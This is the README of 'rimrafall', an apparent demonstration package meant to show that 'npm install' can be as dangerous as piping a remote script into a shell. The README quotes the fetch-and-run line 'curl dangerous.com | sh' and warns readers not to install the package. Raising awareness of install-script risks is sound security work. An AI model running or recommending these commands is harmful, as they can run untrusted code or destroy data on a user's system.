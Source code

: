 # rimrafall

This is to show that `npm install` can be as dangerous as `curl dangerous.com | sh`.

# Whatever you do, do not

```
npm install rimrafall
```
